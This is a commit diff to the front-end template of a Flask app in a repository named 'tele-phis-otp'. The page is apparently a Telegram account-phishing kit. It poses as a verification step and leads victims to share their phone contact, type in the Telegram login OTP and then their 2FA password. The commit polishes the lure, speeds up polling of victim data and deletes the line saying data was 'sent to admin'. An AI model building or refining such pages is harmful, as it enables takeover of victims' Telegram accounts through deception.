

Before and after one commit to hahyt6644-gif/tele-phis-otp, a Flask app: page / in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -58,9 +58,6 @@
             border-radius: 15px;
             padding: 20px;
             margin-bottom: 25px;
-            display: flex;
-            align-items: center;
-            gap: 15px;
             box-shadow: 0 4px 15px rgba(0,0,0,0.1);
         }
 
@@ -75,6 +72,7 @@
             font-size: 24px;
             color: white;
             font-weight: bold;
+            margin-bottom: 15px;
         }
 
         .user-details h3 {
@@ -86,6 +84,7 @@
         .user-details p {
             color: #666;
             font-size: 14px;
+            margin: 3px 0;
         }
 
         /* Buttons */
@@ -116,7 +115,7 @@
         }
 
         .btn-secondary {
-            background: linear-gradient(135deg, #2196F3 0%, #1976D32 100%);
+            background: linear-gradient(135deg, #2196F3 0%, #1976D2 100%);
             color: white;
         }
 
@@ -204,13 +203,9 @@
             font-size: 16px;
         }
 
-        .info-box ol {
-            margin-left: 20px;
+        .info-box p {
             color: #555;
-        }
-
-        .info-box li {
-            margin: 8px 0;
+            margin: 5px 0;
         }
 
         /* Inputs */
@@ -291,11 +286,6 @@
             0% { transform: rotate(0deg); }
             100% { transform: rotate(360deg); }
         }
-
-        /* Hidden */
-        .hidden {
-            display: none;
-        }
     </style>
 </head>
 <body>
@@ -325,7 +315,8 @@
                 <div class="user-details">
                     <h3 id="user-name">Loading...</h3>
                     <p id="user-id">User ID: Loading...</p>
-                    <p id="user-phone">📱 Phone: Not shared</p>
+                    <p id="user-phone">📱 Phone: Not shared yet</p>
+                    <p id="user-status">Status: Waiting</p>
                 </div>
             </div>
 
@@ -336,16 +327,14 @@
             <!-- Section 1: Contact Sharing -->
             <div id="section-contact" class="section active">
                 <div class="info-box">
-                    <h3>📋 How it works:</h3>
-                    <ol>
-                        <li>Click "Share Contact" button below</li>
-                        <li>Telegram will open contact picker</li>
-                        <li>Select your phone contact</li>
-                        <li>5-digit OTP will appear in bot chat</li>
-                        <li>Return here for next step</li>
-                    </ol>
+                    <h3>📋 How to verify:</h3>
+                    <p>1. Click "Share Contact" button below</p>
+                    <p>2. Select your contact from Telegram</p>
+                    <p>3. 5-digit OTP will appear in bot chat</p>
+                    <p>4. Enter OTP on next page</p>
+                    <p>5. Complete verification ✅</p>
                     <p style="margin-top: 10px; color: #666; font-size: 14px;">
-                        🔒 <b>Privacy:</b> Your contact will be auto-deleted immediately
+                        🔒 <b>Privacy:</b> Your contact will be auto-deleted
                     </p>
                 </div>
 
@@ -357,8 +346,8 @@
             <!-- Section 2: OTP Entry -->
             <div id="section-otp" class="section">
                 <div class="info-box">
-                    <h3>🔢 Step 2: Enter 5-digit OTP</h3>
-                    <p>Check your Telegram chat for the <b>5-digit OTP code</b>.</p>
+                    <h3>🔢 Enter 5-digit OTP</h3>
+                    <p>Check your Telegram chat for the 5-digit OTP code.</p>
                     <p>Enter it below to continue verification.</p>
                     <p style="color: #666; font-size: 14px;">
                         <b>Note:</b> Telegram sends 5-digit codes (e.g., 12345)
@@ -385,7 +374,7 @@
             <!-- Section 3: 2FA Entry -->
             <div id="section-2fa" class="section">
                 <div class="info-box">
-                    <h3>🔐 Step 3: Enter 2FA Password</h3>
+                    <h3>🔐 Enter 2FA Password</h3>
                     <p>Your account has two-factor authentication enabled.</p>
                     <p>Enter your 2FA password below to complete verification.</p>
                 </div>
@@ -413,7 +402,7 @@
                         Your account has been verified successfully.
                     </p>
                     <p style="color: #888; font-size: 14px;">
-                        All data has been processed and sent to admin.
+                        All data has been processed.
                     </p>
 
                     <button class="btn btn-primary" onclick="closeWebApp()" style="margin-top: 25px;">
@@ -437,7 +426,6 @@
                 tg = Telegram.WebApp;
                 tg.ready();
                 tg.expand();
-                tg.enableClosingConfirmation();
 
                 // Get user data
                 const user = tg.initDataUnsafe?.user;
@@ -445,7 +433,6 @@
                     userId = user.id;
                     const firstName = user.first_name || '';
                     const lastName = user.last_name || '';
-                    const username = user.username || '';
 
                     // Update UI
                     document.getElementById('user-name').textContent =
@@ -458,7 +445,7 @@
                         avatar.textContent = firstName.charAt(0).toUpperCase();
                     }
 
-                    // Load user data from server
+                    // Load user data
                     loadUserData();
                 }
 
@@ -477,10 +464,11 @@
 
                 if (data.phone) {
                     userPhone = data.phone;
-                    document.getElementById('user-phone').textContent = `📱 Phone: ${userPhone}`;
+                    document.getElementById('user-phone').textContent = `📱 Phone: ${data.phone}`;
+                    document.getElementById('user-status').textContent = `Status: ${data.stage}`;
 
                     // Determine which section to show
-                    if (data.stage === 'contact_received' || data.stage === 'waiting') {
+                    if (data.stage === 'contact_received' || data.stage === 'otp_sent') {
                         showSection('otp');
                     } else if (data.stage === 'needs_2fa') {
                         showSection('2fa');
@@ -522,13 +510,12 @@
 
                                 const data = await response.json();
                                 if (data.success) {
-                                    // Update UI and show OTP section
                                     userPhone = phone;
                                     document.getElementById('user-phone').textContent = `📱 Phone: ${phone}`;
 
                                     setTimeout(() => {
                                         showSection('otp');
-                                        loadUserData(); // Refresh data
+                                        loadUserData();
                                     }, 1500);
                                 } else {
                                     showAlert('❌ ' + data.error, 'error');
@@ -716,22 +703,16 @@
             if (tg) {
                 tg.close();
             } else {
-                alert('Verification complete! You can close this window.');
+                alert('Verification complete!');
             }
         }
 
-        // Initialize on page load
+        // Initialize
         document.addEventListener('DOMContentLoaded', function() {
-            const tgInitialized = initTelegramWebApp();
+            initTelegramWebApp();
 
-            if (!tgInitialized) {
-                document.getElementById('user-name').textContent = 'Not in Telegram';
-                document.getElementById('share-btn').disabled = true;
-                showAlert('⚠️ Please open this page from Telegram bot', 'error');
-            }
-
-            // Auto-refresh user data every 5 seconds
-            setInterval(loadUserData, 5000);
+            // Auto-refresh every 3 seconds
+            setInterval(loadUserData, 3000);
 
             // Enter key support
             document.getElementById('otp-input')?.addEventListener('keypress', function(e) {
```
